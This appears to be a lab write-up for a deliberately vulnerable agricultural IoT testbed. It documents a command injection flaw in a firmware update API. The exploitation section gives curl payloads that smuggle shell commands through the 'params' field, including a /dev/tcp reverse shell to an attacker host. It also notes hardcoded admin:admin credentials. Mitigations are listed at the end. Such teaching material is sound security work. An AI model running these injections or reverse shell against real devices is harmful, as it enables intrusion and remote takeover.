

# Command Injection Vulnerability Details

This document provides detailed technical information about the Command Injection vulnerability implemented in the VAST framework. This vulnerability demonstrates a critical security flaw in the firmware update mechanism of agricultural IoT sensors.

## Vulnerability Overview

The vulnerability exists in the API endpoint responsible for firmware updates and is classified as *Command Injection* (CWE-77). It allows an attacker with valid administrative credentials to execute arbitrary commands on the sensor's operating system by injecting shell commands through the firmware update parameters.

## Technical Implementation

The vulnerability stems from two critical implementation errors in the code:

1. The firmware parameters are concatenated directly into the shell command without proper sanitization
2. The use of `shell=True` in the `subprocess.run()` function allows the execution of shell metacharacters

This implementation vulnerability corresponds to OWASP's classification of *Injection* attacks, which remain a persistent threat in IoT environments.

## Exploitation Methodology

The exploitation follows a systematic methodology:

1. **Authentication**: Obtain valid administrative credentials (in our testbed, these were hardcoded as admin:admin)
2. **Initial Exploitation**: Verify command injection by executing a simple command that creates a file
3. **Tool Installation**: Leverage the vulnerability to install networking utilities not typically present in IoT devices
4. **Remote Access**: Establish a reverse shell connection to gain interactive control of the sensor
5. **Impact Assessment**: Evaluate the potential for sensor manipulation, data exfiltration, and persistence



*This diagram illustrates the 4-phase exploitation process and potential post-exploitation activities.*

## Step-by-Step Exploitation Examples

### Initial Verification

The initial verification of the command injection vulnerability is performed by inserting a simple command to create a text file:

```bash
curl -X POST -u admin:admin -H "Content-Type: application/json" \
-d '{"firmware_url":"http://attacker-server:63999/dummy.sh", "version":"1.2.3", "params":"; echo TEST > /tmp/test.txt"}' \
http://localhost:12381/firmware/update
```

Server response confirming successful command execution:

```json
{
    "command": "/bin/bash /tmp/firmware/dummy.sh ; echo TEST > /tmp/test.txt",
    "message": "Firmware updated successfully",
    "new_version": "1.2.3",
    "path": "/tmp/firmware/dummy.sh",
    "status": "success"
}
```

This response is particularly notable as it reveals the full command that was executed, including the injected portion. The server returning this level of detail represents an additional information disclosure vulnerability that assists attackers in refining their exploitation techniques.

### Installing Network Utilities

After confirming the command injection vulnerability, an attacker can proceed to install networking utilities that would facilitate more sophisticated attacks:

```bash
curl -X POST -u admin:admin -H "Content-Type: application/json" \
-d '{"firmware_url":"http://attacker-server:63999/dummy.sh", "version":"1.2.3", "params":"; apt-get update && apt-get install -y curl > /tmp/install_curl.log 2>&1 && echo \"Curl installed successfully\" || echo \"Failed to install curl\""}' \
http://localhost:12381/firmware/update
```

### Establishing a Reverse Shell

The most significant demonstration of the vulnerability's impact is establishing a reverse shell connection that provides interactive command-line access to the sensor:

```bash
curl -X POST -u admin:admin -H "Content-Type: application/json" \
-d '{"firmware_url":"http://attacker-server:63999/dummy.sh", "version":"1.2.3", "params":"; bash -c \"/bin/bash -i >& /dev/tcp/attacker-server/4444 0>&1\" > /tmp/reverse.log 2>&1 &"}' \
http://localhost:12381/firmware/update
```

On the attacker machine, a netcat listener would capture this connection:

```
Listening on 0.0.0.0 4444
Connection received on 172.18.0.6 51814
```

Through this reverse shell, an attacker gains interactive control of the sensor, enabling comprehensive system exploration, data exfiltration, and persistent access establishment.

## Potential Attack Scenarios

Based on our experimental results, we've identified several high-impact attack scenarios that adversaries could execute:

| Attack Scenario | Technical Implementation | Agricultural Impact |
|-----------------|--------------------------|---------------------|
| Sensor Reading Manipulation | Modification of temperature reading functions to report false values | Incorrect environmental decisions leading to crop damage or yield loss |
| Data Exfiltration | Collection of sensor readings, credentials, and network configurations | Theft of proprietary growing techniques or competitive intelligence |
| Lateral Movement | Use of a compromised sensor as a pivot point to target other network devices | Compromise of the entire agricultural monitoring system |
| Denial of Service | Disabling sensor functionality or flooding the network with traffic | Inability to monitor critical environmental conditions |
| Ransomware Deployment | Encryption of sensor data or control systems | Financial extortion and operational disruption |

## Mitigation Strategies

To protect against command injection vulnerabilities in agricultural IoT sensors:

1. **Input Validation**: Implement strict validation of all user-supplied input
2. **Parameterized Commands**: Use secure APIs that don't rely on string concatenation
3. **Principle of Least Privilege**: Run processes with minimal required permissions
4. **Regular Updates**: Maintain firmware with the latest security patches
5. **Network Segmentation**: Isolate IoT devices from critical infrastructure
6. **Strong Authentication**: Implement proper credential management and MFA where possible